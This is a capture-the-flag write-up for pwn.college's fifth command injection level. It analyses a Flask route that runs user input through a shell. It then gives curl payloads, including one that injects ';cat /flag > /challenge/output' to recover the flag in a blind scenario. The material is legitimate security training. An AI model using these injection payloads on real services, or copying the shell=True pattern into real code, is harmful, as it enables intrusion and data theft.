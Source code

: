 # CMDi-5 Challenge Writeup - pwn.college

## 🧠 Challenge Overview

The fifth level of the command injection series presents a Flask web server that receives a `path` argument and executes the following command:

```python
command = f"touch {arg}"
````

The server uses `subprocess.run` with `shell=True`, meaning user input is passed directly into the shell. This should, in theory, allow command injection through shell metacharacters (e.g., `;`, `&&`, `|`, etc.).

---

## 🔍 Source Code Analysis

```python
@app.route("/dare", methods=["GET"])
def challenge():
    arg = flask.request.args.get("path", "/challenge/PWN")
    command = f"touch {arg}"

    print(f"DEBUG: {command=}")
    result = subprocess.run(
        command,
        shell=True,
        stdout=subprocess.PIPE,
        stderr=subprocess.STDOUT,
        encoding="latin",
    ).stdout

    return f"""
        <html><body>
        Welcome to the touch service! Please choose a file to touch:
        <form action="/dare"><input type=text name=path><input type=submit value=Submit></form>
        <hr>
        <b>Ran {command}!</b><br>
        </body></html>
    """
```

### Key Observations

* `shell=True`: vulnerable to command injection.
* Output of `subprocess.run(...)` is captured in `result`, but **not** displayed in the HTML.
* The only thing returned to the user is the echoed command.

---

## 🧪 Initial Attempt

We attempted to inject a command that would read the flag:

```bash
curl "http://challenge.localhost/dare?path=/challenge/PWN%3Bcat%20/flag"
```

Decoded version:

```bash
curl "http://challenge.localhost/dare?path=/challenge/PWN;cat /flag"
```

### Output:

```html
<b>Ran touch /challenge/PWN;cat /flag!</b><br>
```

### ❌ Why It Didn't Work

Although the shell did execute `touch /challenge/PWN; cat /flag`, the **output of `cat /flag` was not shown** in the response. This is because the `result` from `subprocess.run(...)` was **not used** in the HTML body — only the command string was echoed back.

This is a **blind command injection** scenario.

---

## ✅ Successful Exploit

To exfiltrate the flag, we redirected its output to a file that we could later access:

```bash
curl "http://challenge.localhost/dare?path=/tmp/dummy%3Bcat%20/flag%20>%20/challenge/output"
```

Decoded version:

```bash
curl "http://challenge.localhost/dare?path=/tmp/dummy;cat /flag > /challenge/output"
```

This ran:

```bash
touch /tmp/dummy; cat /flag > /challenge/output
```

Now, if any previous or future level allows us to `cat /challenge/output` or `ls` the `/challenge` directory, we can recover the flag from there.

---

## 🧩 Takeaways

* **Command injection doesn’t always give visible output.**
* Always verify whether you're dealing with a **blind command injection**.
* Redirecting the output to a file is a useful trick for exfiltration in blind scenarios.
